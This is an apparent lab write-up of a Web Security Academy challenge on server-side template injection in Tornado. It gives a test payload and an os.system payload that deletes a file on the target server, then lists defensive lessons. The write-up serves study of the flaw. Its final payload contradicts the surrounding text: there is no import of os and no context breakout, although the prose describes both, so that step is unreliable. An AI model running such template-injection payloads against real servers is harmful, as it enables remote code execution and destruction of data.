

# SSTI in Tornado within a Code Context

## Lab Information

- **Classification:** Server-Side Template Injection (SSTI)
- **Skill Level:** Practitioner
- **Challenge Name:** Basic server-side template injection (code context)
- **Status:** Resolved

---

## Objective

Exploit a Server-Side Template Injection (SSTI) flaw inside a Tornado template context and execute Python commands to delete the file:

```text
/home/carlos/morale.txt
```

---

## Vulnerability Analysis

The application embeds comment author names into a Tornado template without proper escaping or sanitization. Because this occurs inside a template block, an attacker can break out of the context and execute arbitrary Python expressions directly on the server.

---

## Exploitation Steps

### 1. Verifying the Vulnerability

The vulnerability lies in the endpoint:

```http
POST /my-account/change-blog-post-author-display
```

We submit a context-breaking payload for testing:

```python
}}{{7*7}}
```

After reloading the blog comment page, the page displays:

```text
49
```

confirming template injection.

### Screenshot



---

### 2. Executing Operating System Commands

Using Tornado's template capabilities, we can import Python modules to perform system operations.

Payload:

```python

{{os.system('rm /home/carlos/morale.txt')}}
```

Inject this payload through the vulnerable parameter to escape the default template context.

---

### 3. Triggering Payload Execution

Accessing the blog page forces the application to evaluate the modified author display name template, running our Python command and removing:

```text
/home/carlos/morale.txt
```

---

## Result

The file was removed successfully, resolving the challenge.

### Screenshot


---

## Key Technical Lessons

- SSTI occurs when untrusted user input is directly evaluated by backend template systems.
- Tornado template engines allow the execution of Python expressions and statements.
- Template injection within code contexts provides a direct path to Remote Code Execution (RCE).
- User input must be thoroughly sanitized or validated before rendering in template environments.

---

## References

- PortSwigger Web Security Academy
- Tornado Template Documentation
- OWASP Server-Side Template Injection Guide